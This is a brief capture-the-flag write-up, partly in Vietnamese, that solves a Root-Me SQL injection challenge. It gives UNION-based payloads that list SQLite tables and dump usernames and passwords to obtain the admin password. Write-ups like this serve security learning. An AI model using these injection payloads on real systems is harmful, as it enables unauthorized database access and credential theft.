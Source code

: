 # SQL injection - String

`Link: http://challenge01.root-me.org/web-serveur/ch19/`

## Request:

- Retrieve the administrator password

## Solution:

### Step 1:

- `Vào phần search thử với payload: 'sss'`
  -> Ta thấy xuất hiện lỗi với SQLite

### Step 2: Xem tên các table:

- Gõ từ khoá vào thanh search: ' union select 1,tbl_name from sqlite_master --

-> Ta thu được kết quả tên các table

### Step 3: Trích xuất password:

- Gõ từ khoá vào thanh search: ' union select username,password from users --

-> Key sẽ là password của admin
